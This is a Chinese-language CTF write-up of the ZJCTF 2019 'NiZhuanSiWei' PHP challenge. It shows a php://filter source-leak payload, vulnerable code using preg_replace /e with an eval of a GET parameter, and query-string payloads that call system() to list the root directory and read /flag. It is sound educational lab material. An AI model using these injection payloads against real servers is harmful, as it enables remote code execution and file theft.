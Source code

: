 4月27日的题目[ZJCTF 2019]NiZhuanSiWei

第二个PHP伪协议

所有的

?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php

解码后的代码

<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}

这里的漏洞出在**preg_replace** **/e** 模式下

e模式下的preg_replace可以让第二个参数'替换字符串'当作代码执行，但是这里第二个参数是不可变的，但因为有这种特殊的情况，正则表达式模式或部分模式两边添加圆括号会将相关匹配存储到一个临时缓存区，并且从1开始排序，而strtolower("\1")正好表达的就是匹配区的第一个（\\1=\1），从而我们如果匹配可以，则可以将函数实现。
比如我们传入 ?.*=**{${phpinfo()}}**

原句：preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str); 就变成preg_replace('/(' .* ')/ei','strtolower("\\1")',**{${phpinfo()}}**);

又因为$_GET传入首字母是非法字符时候会把  .（点号）改成下划线，因此得将\.*换成\s*

所有payload：?\S*=${getFlag()}&cmd=system('ls /'); 

![img](https://img2022.cnblogs.com/blog/2729166/202206/2729166-20220627134114716-1034484069.png)

 



 终于看到了flag，然后将cmd里改成cat /flag即可

?\S*=${getFlag()}&cmd=system('cat /flag'); 

![img](https://img2022.cnblogs.com/blog/2729166/202206/2729166-20220627134226627-1152733174.png)

## [BUUCTF 2018]Online Tool

![image-20240428210310186](C:\Users\86182\assets\image-20240428210310186.png)
